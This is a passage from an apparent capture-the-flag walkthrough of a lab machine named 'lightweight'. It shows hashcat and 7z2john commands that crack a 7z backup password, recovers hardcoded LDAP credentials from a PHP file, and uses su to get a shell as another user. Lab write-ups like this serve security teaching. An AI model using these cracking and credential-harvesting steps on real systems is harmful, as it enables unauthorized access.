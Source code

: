     Scanning the drive for archives:
    1 file, 3411 bytes (4 KiB)
    
    Extracting archive: backup.7z
    --
    Path = backup.7z
    Type = 7z
    Physical Size = 3411
    Headers Size = 259
    Method = LZMA2:12k 7zAES
    Solid = +
    Blocks = 1
    
        
    Enter password (will not be echoed):
    

I can crack that password using `7z2john.pl` and `hashcat`:

    
    
    root@kali# /opt/john/run/7z2john.pl backup.7z > backup.hash
    
    
    
    $ hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
    $ cat backup.cracked
    delete
    

### Find Creds

Now I can see the contents, which is a backup of the web directories:

    
    
    root@kali# ls -l backup
    total 21
    -rwxrwx--- 1 root vboxsf 4218 Jun 13  2018 index.php
    -rwxrwx--- 1 root vboxsf 1764 Jun 13  2018 info.php
    -rwxrwx--- 1 root vboxsf  360 Jun 10  2018 reset.php
    -rwxrwx--- 1 root vboxsf 2400 Jun 14  2018 status.php
    -rwxrwx--- 1 root vboxsf 1528 Jun 13  2018 user.php
    

In `status.php`, I’ll find creds for ldapuser1 (I’ll look more at the script
in Beyond Root):

    
    
    $username = 'ldapuser1';
    $password = 'f3ca9d298a553da117442deeb6fa932d';
    

### su

Now I can `su` to get a shell as ldapuser1:

    
    
    [ldapuser2@lightweight ~]$ su ldapuser1
    Password: 
    [ldapuser1@lightweight ldapuser2]$ id
    uid=1000(ldapuser1) gid=1000(ldapuser1) groups=1000(ldapuser1) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    